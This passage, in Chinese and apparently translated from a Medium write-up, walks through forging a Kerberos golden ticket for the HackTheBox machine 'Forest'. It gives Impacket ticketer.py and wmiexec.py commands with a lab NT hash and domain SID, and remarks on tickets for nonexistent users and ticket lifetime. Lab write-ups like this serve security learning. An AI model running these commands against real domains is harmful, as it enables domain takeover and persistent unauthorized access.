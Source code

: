 在处理 kerberos 时，注意客户机和服务器之间的两个关键需求匹配是很重要的:

1.  时间
2.  主机名解析

`sntp`可用于将 linux 客户端同步到 NTP 服务器:

```
sudo sntp 10.10.10.161
```

编辑`/etc/hosts`文件以解析域和所有主机:

```
10.10.10.161    forest
10.10.10.161    htb
10.10.10.161    htb.local
```

黄金券可以使用 Impacket 的`ticketer.py`离线铸造:

```
python3 ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 \
-domain-sid S-1-5-21-3072663084-364016917-1341370565 \
-domain htb.local Administrator
```

管理员金券

要在 linux 上使用 kerberos 票证，请导出。ccache 文件到`KRB5CCNAME`环境变量:

```
export KRB5CCNAME=Administrator.ccache
```

Impacket 套件可以使用-k 和-no-pass 选项通过传递票证进行身份验证:

```
python3 wmiexec.py htb.local/Administrator@FOREST.HTB.LOCAL \
-k -no-pass -dc-ip 10.10.10.161
```

甚至可以为不存在的用户制造金券，并成功认证一些服务。通过`smbclient.py`的 SMB 认证和通过`PSexec.py`的代码执行都使用不存在的用户票。但是像`wmiexec.py`这样的工具需要合法用户。

关于金券的另一个警告是它们的有效期限——mimikatz`kerberos::golden /endin`和 Impacket `ticketer.py -duration`参数默认为 **10 年**，尽管这两个参数都可以更改。默认广告设置为 10 小时。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)